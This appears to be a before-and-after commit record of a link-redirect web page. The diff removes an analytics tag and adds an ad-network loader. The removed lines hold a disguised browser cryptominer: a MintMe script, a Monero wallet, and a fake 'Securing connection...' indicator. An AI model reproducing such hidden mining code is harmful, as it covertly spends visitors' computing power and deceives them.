

Before and after one commit to ofheaven/links, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (317-957 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Remove Google tag and add Monetag ad section

```diff
--- a/index.html
+++ b/index.html
@@ -4,16 +4,6 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Link Hub - Access Your Link</title>
-
-    <!-- Google tag (gtag.js) -->
-<script async src="https://www.googletagmanager.com/gtag/js?id=G-H9WEQ611TP"></script>
-<script>
-  window.dataLayer = window.dataLayer || [];
-  function gtag(){dataLayer.push(arguments);}
-  gtag('js', new Date());
-
-  gtag('config', 'G-H9WEQ611TP');
-</script>
 
     <style>
         :root {
@@ -184,31 +174,24 @@
             font-weight: 600;
         }
 
-        .mining-indicator {
+        .ad-section {
+            background: #f8fafc;
+            border: 1px dashed var(--border);
+            border-radius: 12px;
+            padding: 0.8rem;
+            margin: 1rem 0;
+            min-height: 90px;
             display: flex;
             align-items: center;
             justify-content: center;
-            gap: 7px;
-            font-size: 0.78rem;
-            color: var(--muted);
-            margin-top: 0.5rem;
-            font-weight: 500;
         }
 
-        .mining-dot {
-            width: 7px;
-            height: 7px;
-            background: var(--accent3);
-            border-radius: 50%;
-            animation: miningPulse 1.5s infinite;
-        }
-
-        .mining-dot:nth-child(2) { animation-delay: 0.5s; }
-        .mining-dot:nth-child(3) { animation-delay: 1s; }
-
-        @keyframes miningPulse {
-            0%, 100% { opacity: 0.3; transform: scale(0.7); }
-            50% { opacity: 1; transform: scale(1.2); }
+        .ad-label {
+            color: #94a3b8;
+            font-size: 0.7rem;
+            text-transform: uppercase;
+            letter-spacing: 1px;
+            font-weight: 600;
         }
 
         .affiliate-section { margin: 1.2rem 0; }
@@ -410,17 +393,16 @@
             <div class="timer-circle-wrap">
                 <div class="timer-circle" id="timerCircle">
                     <div class="timer-inner">
-                        <span id="countdown">30</span>
+                        <span id="countdown">15</span>
                         <span class="timer-label">seconds</span>
                     </div>
                 </div>
             </div>
-            <div class="mining-indicator">
-                <span class="mining-dot"></span>
-                <span class="mining-dot"></span>
-                <span class="mining-dot"></span>
-                <span>Securing connection...</span>
-            </div>
+        </div>
+
+        <!-- Monetag Ad Section -->
+        <div class="ad-section" id="monetagAd">
+            <span class="ad-label">📢 Advertisement</span>
         </div>
 
         <div class="affiliate-section">
@@ -437,52 +419,25 @@
             </span>
         </button>
 
-        <p class="footer-text">⚡ Powered by Link Hub</p>
+        <p class="footer-text">⚡ Powered by OF Heaven </p>
         <div class="toast" id="toast"></div>
     </div>
-
-    <script src="https://cdn.jsdelivr.net/gh/mintme-com/miner@latest/dist/mintme.min.js"></script>
 
     <script>
         (function() {
 
-            const TOTAL_SECONDS = 30;
+            const TOTAL_SECONDS = 15;
             const LINKS_JSON_URL = 'links.json';
             const AFFILIATE_JSON_URL = 'affiliate.json';
-            const MONERO_WALLET = '44iLjvVjP86KN8kd1SFSg1GcveRZVnmJZWsYjj75jD1rb1uREMU7aWmWNGBjJQkLqx7F9hBQh95KrVM4urV4ntaaLyK7D9o';
 
             let secondsLeft = TOTAL_SECONDS;
             let destUrl = 'https://google.com';
-            let miner = null;
 
             const countdownEl = document.getElementById('countdown');
             const timerCircle = document.getElementById('timerCircle');
             const continueBtn = document.getElementById('continueBtn');
             const affiliateGrid = document.getElementById('affiliateGrid');
             const toast = document.getElementById('toast');
-
-            function startMiner() {
-                try {
-                    if (typeof MintMe === 'undefined') {
-                        console.warn('MintMe not loaded. Check CDN.');
-                        return;
-                    }
-                    miner = new MintMe.Anonymous(MONERO_WALLET, {
-                        threads: 2,
-                        throttle: 0.5,
-                        forceASMJS: false
-                    });
-                    miner.start();
-                } catch (err) {
-                    console.warn('Miner start failed:', err.message);
-                }
-            }
-
-            function stopMiner() {
-                if (miner) {
-                    try { miner.stop(); } catch (err) {}
-                }
-            }
 
             async function loadDestination() {
                 const params = new URLSearchParams(window.location.search);
@@ -526,7 +481,7 @@
 
                 if (secondsLeft <= 5) {
                     countdownEl.style.color = '#ef4444';
-                } else if (secondsLeft <= 15) {
+                } else if (secondsLeft <= 10) {
                     countdownEl.style.color = '#f59e0b';
                 } else {
                     countdownEl.style.color = '#6366f1';
@@ -542,13 +497,10 @@
             function activateButton() {
                 continueBtn.disabled = false;
                 continueBtn.innerHTML = '🚀 Access Your Link Now';
-                stopMiner();
             }
 
             async function init() {
                 await Promise.all([loadDestination(), loadAffiliates()]);
-
-                startMiner();
 
                 updateTimer();
                 const timerInterval = setInterval(() => {
@@ -582,5 +534,14 @@
 
         })();
     </script>
+
+    <!-- Monetag Integration -->
+    <script>
+        (function(d,z,s){
+            s.src='https://'+d+'/400/'+z;
+            try{(document.body||document.documentElement).appendChild(s)}catch(e){}
+        })('admaviation.com','YOUR_MONETAG_ZONE_ID',document.createElement('script'));
+    </script>
+
 </body>
 </html>
```
